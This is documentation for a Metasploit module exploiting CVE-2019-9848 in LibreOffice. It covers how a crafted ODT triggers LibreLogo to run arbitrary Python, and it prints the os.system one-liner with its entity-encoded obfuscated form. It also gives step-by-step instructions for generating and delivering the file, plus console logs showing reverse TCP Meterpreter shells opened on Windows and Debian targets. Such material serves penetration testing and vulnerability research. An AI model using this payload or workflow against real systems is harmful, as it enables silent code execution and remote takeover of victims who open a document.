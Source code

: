 ## Description

  This module exploits CVE-2019-9848 and is based on the module exploiting CVE-2018-16858, written by Shelby Pace.

  LibreOffice has a feature where documents can specify that pre-installed scripts can be executed on various document events such as mouse-over, etc. LibreOffice is typically also bundled with LibreLogo, a programmable turtle vector graphics script, which can be manipulated into executing arbitrary python commands. By using the document event feature to trigger LibreLogo to execute python contained within a document a malicious document could be constructed which would execute arbitrary python commands silently without warning. 

  This module generates an ODT file with a dom loaded event that, when triggered, will execute arbitrary python code and the metasploit payload. LibreLogo executes the python code stored on the text part of the document.

  The generated document file contains a one-liner python code that does an os.system : 

  ```python
  getattr(__import__(“os”),“system”)(“<%= @cmd %>”)
  ```

  but encoded :

  ```xml
  <text:p text:style-name="P8">&#x67;&#x65;&#x74;&#x61;&#x74;&#x74;&#x72;(&#x5f;&#x5f;&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x5f;&#x5f;(&#x201C;\x6f\&#x78;73&#x201D;),&#x201C;\&#x78;73\&#x78;79\&#x78;73\&#x78;74\x65\&#x78;6d&#x201D;)(“<%= @cmd %>”)</text:p>
  ```

  To avoid any python error, the h1 title written in the document is a python comment `#`.

## Vulnerable Application

  "LibreOffice versions prior to 6.2.5", but, unfortunately, it seems to also work on 6.2.5.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_logo_exec```
  4. Do: ```set LHOST <ip>```
  5. Do: ```set LPORT <port>```
  6. Do: ```run```
  7. Move the generated file to the target
  8. Start a handler
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.2.4 running Windows 7

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.33.102
  [*] Meterpreter session 3 opened (192.168.33.1:4444 -> 192.168.33.102:46327) at 2019-07-29 03:33:03 -0400

  meterpreter > 
  ```

### Tested on LibreOffice 6.2.4 running Debian 9.9

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_logo_exec 
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > run

  [+] librefile.odt stored at /home/foobar/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_logo_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.33.1
  lhost => 192.168.33.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.33.1:4444 
  [*] Sending stage (985320 bytes) to 192.168.33.117
  [*] Meterpreter session 5 opened (192.168.33.1:4444 -> 192.168.33.117:43602) at 2019-07-29 04:44:04 -0400

  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > 
  ```
